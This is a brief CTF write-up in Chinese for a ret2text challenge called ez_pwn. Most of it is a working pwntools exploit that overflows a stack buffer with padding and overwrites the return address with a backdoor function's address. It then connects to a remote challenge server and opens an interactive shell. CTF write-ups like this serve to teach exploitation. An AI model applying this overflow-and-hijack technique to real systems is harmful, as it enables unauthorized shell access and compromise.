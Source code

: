 CrazyCat pwn

# ez_pwn
一道简单的ret2text的题目
找到backdoors，找到溢出点就能获取shell。
exp:
```python
from pwn import *

context.log_level = 'debug'
local = False
if local:
	p = process('./ez_pwn')
	# pwnlib.gdb.attach(p, 'b *vulnerable')
else:
	p = remote('154.64.245.108', 33351)

backdoors = 0x4011ca
payload = b'a' * (0x50 + 0x8) + p64(backdoors)

p.sendlineafter(b'information:', payload)

p.interactive()
```
shell:
![[Pasted image 20250125094440.png]]
